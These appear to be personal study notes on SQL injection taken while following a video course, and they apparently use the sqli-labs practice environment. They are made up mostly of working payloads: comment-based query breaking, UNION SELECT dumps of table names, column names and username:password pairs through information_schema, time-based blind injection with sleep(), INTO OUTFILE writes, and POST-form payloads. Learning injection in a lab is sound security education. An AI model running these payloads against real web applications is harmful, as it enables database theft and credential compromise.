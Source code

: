 # basic SQL Injection

## Lecture -1
 - installation
## Lecture -2 
 - Our purpose is to break the query of the url 
 - The comment is one of the most powerful tools here
   - #, --+, /* */ are few of the ways of commenting
```sql
    --the possible sql queries are - 
    select * from table where id='1' or 1=1;
    select * from table where id="1";
    select * from table where id=('1');
    select * from table where id=("1");
```
- Break the query by putting necessary delimeter
  - url?id=1--+
  - url?id=1'--+
  - url?id=1"--+
  - url?id=1')--+
  - url?id=1")--+
  - url?id=1")--+
  - url?id=anystring
  - url?id=1string
  - url?id=123135123412341234


- Use the area before `--+` to execute the qurey
  - url?id=1                  our injected code here                   --+
- Find how many columns inside the db table, use `order by` and after certain time you'll get error.
```sql

    select * from table where id='1' order by 1;
    select * from table where id='1' order by 2;
    select * from table where id='1' order by 3;
    select * from table where id='1' order by 4; -- error at certain point

    select col1, col2, col3 from table where id='1';

```
- after determining the column numbers our purpose is to execute the second query and we can do this by providing the input of the first query something that doesn't exist in the table as, id = -1. Then we union another select statement. Let's the statement is `select 1,2,3`, if the output is 2,3 then the server is returning the second and third column from the database. So we'll attack on those and get necessary data from.
```sql
    /*
    url?id=999' union select 1,2,3--+
    login: 2
    pass: 3
    */
    select * from table where id='999' union select 1,2,3
    /*
    url?id=999' union select 1,version(),database()--+
    */
    select * from table where id='999' union select 1,version(),3


    --
    -- necessary query to get table name, and all column name of a table
    select table_name from information_schema.tables where table_schema="table_name";
    select column_name from information_schema.columns where table_name='users';
    select 1,group_concat(col1), group_concat(col2) from users
    --


    -- read all the table_name of the current database
    /*
    url?id=999' union select 1,concat('~',version(),'~',database()),((select group_concat(table_name) from information_schema.tables where table_schema='security'))--+
    */

    --read all the column_name of a table
    /*
    url?id=999' union select 1,concat('~',version(),'~',database()),((select group_concat(column_name SEPARATOR ', ') from information_schema.columns where table_name='users'))--+

    */

    --get all the necessary data from the table
    /*
    url?id=999' union select 1,concat('~',version(),'~',database()),((select group_concat('`',username,'`:`',password) from security.users))--+
    */


```


# Lecture -3
- recap previous lectures


```sql 

    url?id=1' /*write all sql query here*/   --+

    #LECTURE - 2
    
    -- developer may use single quote inside the sql statement
    
    /* ''1'' LIMIT 0,1' at line 1  */
    /* '1'    --+'  */
    /* ''1\' LIMIT 0,1' at line 1 */
    /*select * from table where id= '  whatever_we_use_after_the_id_field_followed_by_the_?_marks  '*/


    #LECTURE -3
    
    -- developer may use double queote inside the sql statement

    /*select * from table where id= ('  whatever_we_use_after_the_id_field_followed_by_the_?_marks  ')*/
    -- it may be necessary to use ') to recorrect the query.




    ?id=999' union select 1, current_version, 5 --+

    select table_name from information_schema.tables where table_schema="security";

    /?id=999' union select 1,table_name, 5 from information_schema.tables where table_schema=database() limit 2,1 --+

    select column_name from information_schema.columns where table_name='users';

    (USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password)

    /?id=999' union select 1,group_concat(username), 5 from users --+

    /?id=999' union select 1,group_concat(username), group_concat(password) from users --+

    select 1,group_concat(username), 5 from users

    /?id=999' union select 1,group_concat(column_name), 5 from information_schema.columns where table_name='users' --+

    (Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4)

    /?id=999' union select 1,group_concat(table_name), 5 from information_schema.tables where table_schema=database()--+

    /?id=999' union select 1, user(), 5 --+

    select 1, database()
```
## Blind Injection
- need to guess 
- types
  - boolean
  - time based
    - if answer is true then wait else back instantly.

```sql
    select substr( database(), 2,1);
    select length(database()) len;
    select database();
    select ascii( substr( database(), 2,1));
    select sleep(10);
    select if((select database())="security", sleep(10),null); -- wait 10 seconds if the database is security




```
## Dump file base injection
```sql

    select * from users into dumpfile "/test.txt";
    select * from users into outfile "/test.txt";

```

## Post based injection
```sql

    ")            #
    ") or 1=1     #
    ") or 1=1 limit 1,1 #
    ")  order by 3 #
    ")  order by 2 #
    ")  union select 1,2 #
    ")  union select version(),database() #


```

## Few built in methods of sql
    - current_user
    - database()
    - version()
    - user()
    - GROUP_CONCAT(column_name SEPARATOR ', ')
    - @@datadir
    - 

[ref](https://www.youtube.com/playlist?list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)